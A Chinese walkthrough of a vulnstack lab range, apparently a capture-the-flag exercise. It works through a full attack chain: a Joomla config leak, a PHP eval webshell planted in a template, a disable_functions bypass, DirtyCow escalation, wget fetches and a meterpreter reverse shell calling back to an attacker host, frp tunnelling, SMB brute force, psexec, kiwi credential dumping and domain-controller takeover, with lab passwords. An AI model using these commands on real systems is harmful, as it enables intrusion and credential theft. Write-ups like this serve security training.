


# 靶场地址

[漏洞详情](http://vulnstack.qiyuanxuetang.net/vuln/detail/5/)


# 靶场配置


同时记得取消勾选将主机虚拟适配器连接到此网络，不然无法实现内网隔离（好像）


其中NAT为出网ip

VMnet2为内网网段


将centos配置为NAT和仅主机模式下的VMnet2

其余不做修改


登录centos后重新启动一下网卡，获取ip


# 渗透阶段

创建文件夹用来存放信息

```
mkdir report
```


主机探测


确定外网主机ip

192.168.1.110


端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.1.110 -oA ./report/ports
```


开放了 22 80 3306端口


提取端口信息

```
cat ./report/ports.nmap |grep open | awk -F'/' '{print $1}' | paste -sd,
```


详细结果扫描

```
sudo nmap -sCV -O -p 22,80,3306 192.168.1.110 -oA ./report/detail
```


分析

- 22 ssh
- 80 http nginx 1.9.4
- web服务器架设了joomla，同时暴露出robots.txt
- 3306 mysql


80端口

访问192.168.1.110


joomla


目录扫描

先用dirsearch默认字典跑一下

```
dirsearch -u 192.168.1.110 -x 403,404 -o ./report/dirreport
```


1.php phpinfo


暴露php版本和网站路径

robots.txt


web.config.txt


administrator 后台界面


存在两个configuration.php

访问，暴露出数据库账号和密码


```
	public $host = 'localhost';
	public $user = 'testuser';
	public $password = 'cvcvgjASD!@';
	public $db = 'joomla';
	public $dbprefix = 'am2zu_';
	public $live_site = '';
	public $secret = 'gXN9Wbpk7ef3A4Ys';
```


访问后台，尝试以这个用户登录后台


失败


本地尝试连接数据库，同时记录账号和密码信息


```
mysql -utsetuser -h 192.168.1.110 -p
```


成功连接数据库


尝试数据库日志注入木马

```
show variables like 'general%';
```


但是尝试开启日志时失败

```
SET GLOBAL general_log = 'on';
```


查看数据库中信息

```
show databases;
use joomla;
```


```
show tables;
```


结合之前得到的数据库前缀


确定用户表


得到超级用户administrator以及其密码哈希


再尝试以administrator用户即数据库密码登录后台


失败


尝试修改joomla管理员密码

这里官网给出了方案

[如何恢复或重置管理员密码？ - Joomla! Documentation](https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F/zh-cn)


```
INSERT INTO `am2zu_users`   (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)
VALUES ('Administrator2', 'admin2','d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`) VALUES (LAST_INSERT_ID(),'8');
```


然后利用admin2：secret登录


或者直接手动修改密码，md5加密即可

```
update am2zu_users set password=md5(123456) where id = 891;
```


利用administrator：123456登录后台


模板注入


Beez3

很熟悉

前面目录扫描的时候出现过


在error中写入一句话木马

```
@eval($_POST[a]);  
```


然后找到文件路径

也就是templates/beez3/error.php


访问，空白页，测试phpinfo()


成功

蚁剑连接


但是连接后发现不能命令执行


查看phpinfo后发现存在函数禁用


蚁剑插件市场下载bypass插件（disable_functions绕过）


如果插件市场无法正常加载，需要给蚁剑配置代理


成功执行命令


或者选择github一个bypass项目

[yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD: bypass disable_functions via LD_PRELOA (no need /usr/sbin/sendmail)](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

通过蚁剑将bypass_disbalefunc_x86.so和bypass_disablefunc.php上传到靶机服务器

其中php上传到web目录下

so文件放到tmp目录


同时在tmp目录下还发现了一个mysql文件夹


里面记录了一个用户名和密码

```
wwwuser:wwwuser_123Aqx
```

保存到本地


回到浏览器实现rce

访问http://192.168.1.110/templates/beez3/bypass_disablefunc.php


给出用法

cmd参数后跟命令，outpath后跟命令执行输出的路径，默认是/tmp/xx

以及so文件的路径

```
?cmd=ls&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```


查看网卡信息

```
ifconfig
```


发现该主机只有一张内网网卡192.168.93.120

但是我们在前期信息收集的时候应该是192.168.1.0/24这个网段


查看网络进程信息

```
netstat -anlpt
```


网络的进出都是93这个网段

也就可以判断，先前我们拿到的linux的192.168.1.110是公网ip，但是真正的主机应该是192.168.93.120，但这是一个内网网段，也就是其可能使用了ngxin反向代理

```
反向代理
那么为什么要用到反向代理呢，原因有以下几点：
1、保护了真实的web服务器，web服务器对外不可见，外网只能看到反向代理服务器，而反向代理服务器上并没有真实数据，因此，保证了web服务器的资源安全
2、反向代理为基础产生了动静资源分离以及负载均衡的方式，减轻web服务器的负担，加速了对网站访问速度（动静资源分离和负载均衡会以后说）
3、节约了有限的IP地址资源，企业内所有的网站共享一个在internet中注册的IP地址，这些服务器分配私有地址，采用虚拟主机的方式对外提供服务
```

但是这台主机是内网主机，无法出网，因此我们要想办法拿到真正的出网主机centos


通过蚁剑上传fscan


赋予执行权限

```
?cmd=chmod %2bx /tmp/fscan&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

这里+x中的+要进行一次url编码，不然会被浏览器当成空格执行


测试运行

```
?cmd=/tmp/fscan -h&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```



成功

扫描内网信息

```
?cmd=/tmp/fscan -h 192.168.93.0/24&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

同时运行结果会保存在当前bypass目录下的result.txt中


梳理信息

```
   [->]WIN-8GA56TNV3MV(Windows Server 2012 R2 Datacenter 9600)
   [->]192.168.93.10
   192.168.93.10:88 open
	192.168.93.10:135 open
	192.168.93.10:139 open
	192.168.93.10:445 open

域控制器（DC）：WIN-8GA56TNV3MV.test.org
```

```
   [->]win7(Windows 7 Professional 7601 Service Pack 1)
   [->]192.168.93.30
   192.168.93.30:135 open
	192.168.93.30:139 open
	192.168.93.30:445 open
```

```
   [->]win2008(Windows Server (R) 2008 Datacenter 6003 Service Pack 2)
   [->]192.168.93.20
   192.168.93.20:80 open
   192.168.93.20:135 open	
   192.168.93.20:139 open
	192.168.93.20:445 open
	192.168.93.20:1433 open
```

```
出网主机centos
192.168.93.100:80 open
192.168.93.100:22 open
192.168.93.100:3306 open
```

```
当前所控主机unbuntu
	192.168.93.120:22 open
	192.168.93.120:80 open
	192.168.93.120:3306 open
```


考虑到在/tmp目录下发现的账号密码

同时192.168.1.110开放了ssh服务，尝试ssh登录

```
ssh wwwuser@192.168.1.110
```


报错

搜索解决方案

[ssh登录服务器报错“no matching host key type found. Their offer: ssh-rsa,ssh-dss”解决方法-CSDN博客](https://blog.csdn.net/weilaozongge/article/details/141926639)


重新登录

```
ssh wwwuser@192.168.1.110  -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa
```


成功登录


提权

上传linpeas.sh

```
wget 192.168.1.15:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


可用脏牛提权


上传.c文件

```
wget 192.168.1.15:8000/dirty.c
```


编译运行

```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty 123456
```

提示以及有一个备份文件在/tmp目录下，可能是作者留下的线索，删除，然后重新执行

```
./dirty 123456
```


成功执行

切换用户

```
su firefart
whoami
```


搭建隧道

上传frpc和frpc.ini


查看配置文件

客户端


frpc.ini

```
[common]
server_addr = 192.168.1.15
server_port = 3333
token = Talent

[http_proxy8]
type = tcp
remote_port = 50002
plugin = socks5
```


服务端


frps.ini

```
[common]
bind_addr = 0.0.0.0
bind_port = 3333
token = Talent
```


检查proxychains4.conf

```
vim /etc/proxychains4.conf
```


或者proxychains.conf，看自己使用什么工具

```
vim /etc/proxychains.conf
```


开启服务

服务端

```
./frps -c frps.ini
```


客户端

```
./frpc -c frpc.ini
```


成功建立连接


但是还有一点问题

当使用普通用户进行代理扫描时，无论是proxychains4和proxychains都能扫描正常结果

```
proxychains4 nmap 192.168.93.20 -p 1433
proxychains nmap 192.168.93.20 -p 1433
```


但是以root身份扫描会出现filter状态

```
proxychains4 nmap 192.168.93.20 -p 1433
proxychains nmap 192.168.93.20 -p 1433
```


msf上线

生成linux远控木马

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.1.15 lport=283 -f elf
> ra1n3.elf
```


开启监听

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 192.168.1.15
set lport 283
run
```


上传靶机

```
wget 192.168.1.15:8000/ra1n3.elf
```


赋予执行权限，执行

```
chmod +x ./ra1n3.elf
./ra1n3.elf
```


成功上线msf


配置路由

```
run post/multi/manage/autoroute
bg
route print
```


成功配置路由


爆破smb服务

```
search smb_login
use 0
show options
```


其中要设置目标主机

密码字典

线程

用户名

并取消输出结果

```
set rhost 192.168.93.10 192.168.93.20 192.168.93.30
set pass_file /home/ra1n3/top10000.txt
set smbuser administrator
set threads 50
set verbose no
run
```


成功爆破出20和30的密码


利用psexec上线

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set smbuser administrator
set smbpass 123qwe!ASD
set rhost 192.168.93.20
run
```


进程迁移

```
getuid
getpid
ps
```


```
migrate 2752
```


hashdump

```
load kiwi
?
```


```
creds_all
getsystem
creds_all
```


尝试抓取，提示非system用户，getsystem后重新抓取


成功抓取域控管理员密码

```
zxcASDqw123!!
```


前面已经得到信息，域控主机为192.168.93.10


进入shell环境再次确认

```
shell
ipconfig /all
```


DNS为test.org

一般来说DNS服务器就是域控主机


ping一下

```
ping test.org
```


确定域控主机为192.168.93.10


利用psexec上线域控主机

```
set smbdomain TEST.ORG
set SMBpass zxcASDqw123!!
set rhosts 192.168.93.10
run
```


失败


利用ips执行命令

```
net use \\192.168.93.10\ipc$ zxcASDqw123!! /user:test\administrator
net use
```


其中Document中存在flag

```
dir \\192.168.93.10\C$\users\Administrator\Documents
type \\192.168.93.10\C$\users\Administrator\Documents\flag.txt
```


# 复盘

信息收集阶段

joomla可以用joomscan进行相关信息收集

[OWASP/joomscan: OWASP Joomla Vulnerability Scanner Project https://www.secologist.com/](https://github.com/OWASP/joomscan)

然后根据版本信息查找相关漏洞




同样也会爆出配置文件


然后我第一次连接数据库的时候也出现类似ssh登录时的报错，网上也有解决办法

如果无法正常解决，用数据库连接工具也可以


joomla数据库中有两个users表，然后根据配置文件找到正确的表才能修改管理员账户


模板注入时，路径可以参考先前的目录扫描，如include templates等

且当前模板为beez3，目录扫描出现过

很容易猜出路径


disable_functions绕过有多种方式，但是蚁剑流量特征可能会更明显


蚁剑插件市场要配置代理

bypass_disalbefunc()

https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD


ngxin反向代理的相关知识


fscan收集内网资产

[shadow1ng/fscan: 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。](https://github.com/shadow1ng/fscan)

其中192.168.93.20还开放了1433端口我们未做利用


ssh登录报错解决

[ssh登录服务器报错“no matching host key type found. Their offer: ssh-rsa,ssh-dss”解决方法-CSDN博客](https://blog.csdn.net/weilaozongge/article/details/141926639)

这里其实终端管理工具直接连也行，不会出现报错


脏牛提权

如果不会编译可以找网上编译好的


利用frp内网穿透

[fatedier/frp: A fast reverse proxy to help you expose a local server behind a NAT or firewall to the internet.](https://github.com/fatedier/frp)

frpc是客户端，上传靶机

frps是服务端，本地运行

成功连接后，修改proxychains.conf或proxychains4.conf配置文件，考虑自己的工具


代理扫描nmap时，root用户会出现filter，但是普通用户就可以正常扫描


msf上线后可以加载路由

在meterpreter中加载

```
run post/multi/manage/autoroute
```

然后在msfconsole中查看

```
route print
```

这样可以为msf加载路由


内网三台windows主机都开放了445

利用smb_login爆破密码

得到192.168.93.20和30的密码

psexec上线


由于是仅主机模式，无法正常出网，因此payload要选择正向连接


hashdump直接抓取域控管理员密码

```
load kiwi
creds_all
```

但是无法直接利用psexec上线


可以在靶机中执行ipconfig /all查看DNS服务器，一般来说DNS服务器就是域控主机

ping一下域名就可以拿到域控主机ip


利用ips进行命令执行

或者利用wmiexec

[Releases · fortra/impacket](https://github.com/fortra/impacket)